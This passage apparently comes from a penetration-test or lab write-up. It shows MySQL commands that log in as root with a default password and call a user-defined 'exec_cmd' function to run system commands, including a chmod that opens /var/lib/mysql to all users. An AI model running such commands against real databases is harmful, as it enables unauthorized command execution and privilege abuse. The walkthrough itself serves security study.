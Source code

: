 This can be proved by executing the following command.  

```bash
mysql -u root -p'changethis' mysql -e "select exec_cmd('id') from mysql.func"
```

![](assets/img/Compromised/1000000000000410000000ABD3B95C115D45005B.png)

``` bash
mysql -u root -p'changethis' mysql -e "select exec_cmd('pwd') from mysql.func"
```



![](assets/img/Compromised/100000000000049D000000D90965D01FD6E806B7.png)

The `/var/lib/mysql` folder can just be accessed by the root and mysql users. Furthermore, the “exec_cmd” function is not so good so you can’t
neither list all files inside the folder or read files contests. Hence, I changed the folders permissions so other users can get access.

```bash
mysql -u root -p'changethis' mysql -e "select exec_cmd('chmod o+xwr /var/lib/mysql') from mysql.func"
```
